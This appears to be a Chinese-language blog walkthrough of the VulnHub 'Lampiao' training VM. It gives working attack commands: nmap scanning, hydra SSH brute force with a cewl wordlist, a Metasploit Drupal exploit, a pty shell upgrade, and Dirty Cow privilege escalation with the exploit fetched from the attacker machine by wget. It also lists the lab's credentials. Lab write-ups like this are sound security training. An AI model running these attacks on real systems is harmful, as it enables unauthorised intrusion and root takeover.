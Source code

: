 ```yaml
---
title: 靶场练习-Lampiao
tags:
  - 信息安全
readmore: true
abbrlink: e94dd49a
date: 2023-02-23 13:07:58
---
```


### 环境搭建

访问官网：https://www.vulnhub.com/entry/lampiao-1,249/

页面向下滑找到 Download 下载靶场；下载成功后，启动虚拟机，单击“打开”选项，找到刚刚下载并解压好的靶场文件，等待导入完成；

完成后启动靶机，可以看到只有一个登录窗口，此时靶机已经成功运行。

启动 kali 虚拟机，并同时设置两个机器的网络配置为 NAT 模式；

这样可以使所有的虚拟机共同处在一个独立的网段（和物理机不在同一个网段），方便后续探索靶机 ip 时更快的找到靶机 ip；

<!--more-->

### 获取 shell

由于靶机无法直接登录，所以我们也无法获取靶机的任何信息，最重要的就是要先访问靶机；

#### nmap 扫描

nmap： nmap（Network Mapper）是一款开源免费的针对大型网络的端口扫描工具，nmap可以检测目标主机是否在线、主机端口开放情况、检测主机运行的服务类型及版本信息、检测操作系统与设备类型等信息。

官方网站：https://nmap.org/

使用 nmap 扫描整个网段，找到靶机的 ip 地址：

```bash
nmap -sS -Pn 192.168.19.0/24
# -sS 半开放扫描，打开一个不完全的 TCP 连接，速度较快且不容易被发现
# -Pn 穿透防火墙进行扫描，有的防火墙禁止 ping 命令，可以使用此选项
# 要扫描的网段，24指的是32位二进制的前24位用 “1” 表示，并变化后面的几位来进行扫描
```

 ![](https://pic.mewhz.com/lampiao/1.png)

发现这个 ip 的 80 端口是开放的，去访问这个网站，发现是一个静态页面；

进一步扫描 ip 开放的所有端口：

```bash
nmap -T4 -p 1-65535 192.168.19.136
# -T4 设置扫描的时间模板为 T4， 可以更快的扫描
# -p 设置扫描的端口范围，1-65535 是所有的端口
```

 ![](https://pic.mewhz.com/lampiao/2.png)

发现开启着 ssh 服务(22端口)，80 端口和 1898 端口，尝试访问 1898端口。

#### 爆破用户名密码 (第一种获取 shell 方法)

访问 1898 端口后，尝试都点击一下，在 url node = 1 中尝试修改为 2 并访问:

```bash
http://192.168.19.136:1898/?q=node/2
```

 ![](https://pic.mewhz.com/lampiao/3.png)

发现一个 m4a 和 png 文件，扫描二维码发现没有有用的信息，听 m4a 文件可以得到用户名为

>tiago

得到了用户名，可以尝试使用 cewl 制作字典来进行爆破:

```bash
cewl http://192.168.19.136:1898/?q=node/1 -w password.txt
# cewl 可以探索网站的内容并生成一个字典文件
# -w 结果写入文件
```

 ![](https://pic.mewhz.com/lampiao/4.png)

使用 hydra 工具：

```bash
hydra -l tiago -P password.txt 192.168.19.136 ssh
# -l: 指定用户名进行爆破
# -P 用于指定密码字典 (大写)
# ssh: 指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
```

成功得到用户名密码：username: **tiago**   password: **Virgulino**

![](https://pic.mewhz.com/lampiao/5.png)

使用 ssh 命令成功登录：

```bash
ssh tiago@192.168.19.136
```

![](https://pic.mewhz.com/lampiao/6.png)

#### 漏洞利用 (第二种获取 shell 方法)

进入网站后，先使用 dirsearch 命令扫描一下目录：

```bash
dirsearch -u 192.168.19.136:1898
```

![](https://pic.mewhz.com/lampiao/7.png)

发现 CHANGELOG.txt 文件，并通过该文件得到了 Drupal 的版本，百度搜索发现该版本存在漏洞，使用 msfconsole 利用漏洞；

msfconsole：集成了很多漏洞的利用的脚本，并且使用起来很简单的网络安全工具

```bash
msfconsole
# 如果启动很慢，可以在 kali 中直接启动 metasploit framework
search Drupal
# 启动后输入该命令搜索 Drupal 相关漏洞
```

![](https://pic.mewhz.com/lampiao/8.png)

找到对应的漏洞

```bash
use 1
# 使用攻击模块 1
set rhosts 192.168.19.136
# 设置目标 ip
set rport 1898
# 设置目标端口
show options
# 查看信息是否正确
run
# 运行攻击模块
```

成功拿到对应的 shell

![](https://pic.mewhz.com/lampiao/9.png)

执行shell获取交互式命令，由于我们获取的shell并不是一个具有完整交互的shell，对于已经安装了python的系统，我们可以使用 python提供的pty模块，只需要一行脚本就可以创建一个原生的终端，命令如下：

```python
shell
# shell 获取目标主机的远程命令行shell，使用exit退出当前的shell
python -c 'import pty;  pty.spawn("/bin/bash")'
# -c 可以在命令行调用 python 代码
# pty 伪终端工具
# pty.spawn 生成一个进程，并将其控制终端连接到当前进程的标准 io。
```

![](https://pic.mewhz.com/lampiao/10.png)

### 提权

获取 shell 后发现是一个低权限的用户，所以我们需要提权。查看 linux 内核版本：

```bash
uname -r
# 用于显示操作系统的信息
# -r 显示操作系统的发行编号
```

![](https://pic.mewhz.com/lampiao/11.png)

发现该版本存在脏牛漏洞，可以使用脏牛(Dirty Cow)漏洞进行提权；

```bash
searchsploit dirty
# searchsploit 是一个用于Exploit-DB的命令行搜索工具
```

ExploitDB是一个面向全世界黑客的漏洞提交平台；https://www.exploit-db.com

![](https://pic.mewhz.com/lampiao/12.png)

使用 40847.cpp 作为提权的代码文件，首先在本机找到该文件

```bash
cd /usr/share/exploitdb/exploits/linux/local/
cp 40847.cpp /tmp
cd /tmp
```

然后将里面内容复制到靶机上，可以直接使用复制粘贴，也可以使用 xftp 或者 kali 使用 python 开启 web 服务，靶机通过 wget 命令进行下载。

```python
python -m http.server 8080
# 开启 8080 端口，kali 使用
wget 192.168.19.130:8080/40847.cpp
# 下载文件，文件保存在本地
```

下载后使用 g++ 进行编译

```bash
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
 # g++ 是C&C++ 的编译器
 # -Wall 允许发出GCC能够提供的所有有用的警告
 # -pedantic 允许发出ANSI/ISO C标准所列出的所有警告
 # -O2 编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高
 # -std=c++11 就是用按C++2011标准来编译
 # -pthread 在Linux中要用到多线程时，需要链接pthread库
 # -o dcow gcc生成的目标文件,名字为dcow
 ./dcow 
 # 执行编译后的文件
```

获取到 root 用户密码：dirtyCowFun

```bash
su root
# 切换 root 用户，输入密码后成功登录
```

在 root 目录下成功找到 flag.txt

![](https://pic.mewhz.com/lampiao/13.png)

---

### 参考资料

[VulnHub-Lampiao 靶场渗透测试](https://www.cnblogs.com/l2sec/p/14403481.html)

[黑客工具之hydra详细使用教程](https://zhuanlan.zhihu.com/p/397779150)

[记一次lampiao靶机渗透](https://zhuanlan.zhihu.com/p/349079469)

[【工具使用】--- cewl](https://blog.csdn.net/qq_43168364/article/details/111773051)

[nmap 常用参数](https://blog.csdn.net/tryheart/article/details/108245986)

[msfconsole的使用 ](https://www.cnblogs.com/Junglezt/p/16009926.html)

[Python 3.10.0 官方文档(全)](https://www.bookstack.cn/books/python-3.10.0-zh)

[网络安全nmap扫描端口命令详解linux网络探测](https://www.920vip.net/article/66)
